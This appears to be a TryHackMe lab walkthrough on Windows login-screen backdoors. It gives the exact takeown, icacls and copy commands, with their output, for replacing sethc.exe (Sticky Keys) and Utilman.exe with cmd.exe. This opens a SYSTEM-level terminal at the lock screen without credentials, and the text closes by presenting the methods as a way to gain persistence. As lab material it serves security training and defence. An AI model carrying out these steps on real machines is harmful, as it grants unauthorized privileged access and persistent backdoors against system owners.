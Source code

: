# Backdooring the Login Screen for RDP Access

If we have physical access to the machine (or RDP in our case), we can backdoor the login screen to access a terminal without valid credentials. This can be achieved by abusing accessibility features. Below, we explore two methods: **Sticky Keys** and **Utilman**.

---

## Sticky Keys

Sticky Keys allow users to press key combinations sequentially instead of simultaneously (e.g., pressing `CTRL`, `ALT`, and `DEL` one at a time). By default, pressing `SHIFT` five times activates Sticky Keys. We can exploit this feature to establish persistence.

### Steps to Backdoor Sticky Keys

1. **Trigger Sticky Keys Shortcut**  
    Press `SHIFT` five times. Normally, this executes the binary located at `C:\Windows\System32\sethc.exe`.

2. **Replace `sethc.exe` with `cmd.exe`**  
    Replace the Sticky Keys binary with a copy of `cmd.exe` to spawn a terminal from the login screen.

    ```cmd
    C:\> takeown /f c:\Windows\System32\sethc.exe
    SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

    C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
    processed file: C:\Windows\System32\sethc.exe
    Successfully processed 1 files; Failed processing 0 files

    C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
    Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
              1 file(s) copied.
    ```

3. **Lock the Session**  
    Lock the session from the Start menu.

4. **Trigger the Backdoor**  
    Press `SHIFT` five times on the login screen to open a terminal with SYSTEM privileges.

### THM Flag
From the terminal, execute the following to retrieve the flag:
```cmd
C:\> C:\flags\flag14.exe
```

---

## Utilman

Utilman is a built-in Windows application that provides Ease of Access options during the lock screen. Clicking the "Ease of Access" button executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. We can replace this binary with `cmd.exe` to bypass the login screen.

### Steps to Backdoor Utilman

1. **Replace `Utilman.exe` with `cmd.exe`**  
    Follow a similar process as with Sticky Keys:

    ```cmd
    C:\> takeown /f c:\Windows\System32\utilman.exe
    SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

    C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
    processed file: C:\Windows\System32\utilman.exe
    Successfully processed 1 files; Failed processing 0 files

    C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
    Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
              1 file(s) copied.
    ```

2. **Lock the Session**  
    Lock the session from the Start menu.

3. **Trigger the Backdoor**  
    Click the "Ease of Access" button on the login screen to open a terminal with SYSTEM privileges.

### THM Flag
From the terminal, execute the following to retrieve the flag:
```cmd
C:\> C:\flags\flag15.exe
```

---

By leveraging these methods, you can establish persistence and gain SYSTEM-level access to a Windows machine.